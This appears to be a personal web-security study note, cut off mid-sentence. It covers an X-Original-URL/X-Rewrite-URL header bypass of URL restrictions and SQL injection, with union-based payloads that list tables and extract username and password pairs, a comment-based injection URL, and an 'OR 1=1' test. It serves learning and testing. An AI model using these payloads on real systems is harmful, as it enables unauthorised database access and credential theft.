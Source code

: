 This will bypass URL restrction:

**X-Original-URL** or **X-Rewrite-URL**





------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## <h2>SQL Injection</h2>

Testing cheatsheet
---

https://portswigger.net/web-security/sql-injection/cheat-sheet

Can be found especially in queries

Useful command when we want to know more about table information.

```
SELECT * FROM information_schema.tables
```

If you want to see tables you can try to exploit it with union-based sql injection.

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

In case we want to retreive tables more than one, we can use concatenation to achieve that.

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

<h3>How to test SQL injection</h3>

Use ' = if there is SQL error message, this means the web app is vulnerable to SQL injection

Ex.

```
https://insecure-website.com/products?category=Gifts'--
```

This means that the statement after -- will be recognized as a comment. In this case the only part that SQL statement will be execute is ?category=Gift

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

**Boolean conditions** checks for conditions

try

```
OR 1=1 # this always returns true
```

or
